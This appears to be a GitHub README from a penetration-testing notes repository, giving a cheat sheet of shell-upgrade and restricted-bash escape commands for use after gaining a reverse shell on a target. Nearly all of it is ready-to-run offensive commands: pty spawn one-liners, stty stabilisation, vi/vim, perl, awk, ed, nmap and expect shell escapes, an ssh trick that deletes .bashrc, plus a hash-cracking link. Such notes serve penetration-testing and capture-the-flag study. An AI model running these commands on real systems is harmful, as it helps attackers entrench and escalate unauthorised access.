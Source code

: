 # Breakouts

==============================================================================

[**S1REN's COMMON**](Breakouts/COMMON.md)

[Reverse shells](Breakouts/Reverse%20shells.md)

[CVE’s](Breakouts/CVE’s.md)

[**Privilege Escalation**](Breakouts/Privilege%20Escalation.md)

[Tools](Breakouts/Tools.md)

===============================================================================

                                                                                [shell after a reverse shell connection]

===============================================================================

`shell after a reverse shell connection`

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
python -c 'import os; os.system("/bin/sh")'
```

`Set PATH TERM and SHELL if missing:`

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```bash
export TERM=xterm-256color;export SHELL=bash
```

```makefile
Out of the gate.

python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Keyboard Shortcut: Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset
stty columns 200 rows 200

 

* Grab a valid tty.
* What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD
* Want a color terminal to easily tell apart file permissions? Directories? Files?
* Fastest way to list out the files in a directory, show size, show permissions, human readable.
* Make this shell stable.

Is this rbash (Restricted Bash)? PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

Is this rbash (Restricted Bash)? PT2
(This requires ssh user-level access)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(Bash Shell)

Is python present on the target machine?
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

Is perl present on the target machine?
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

Is AWK present on the target machine?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

Is ed present on the target machines?
ed
!sh

IRB Present on the target machine?
exec "/bin/sh"

Is Nmap present on the target machine?
nmap --interactive
nmap> !sh

Expect:

expect -v
  expect version 5.45.4
  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh
```

==================================================================================================

[Best Hash Cracker] [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)

---
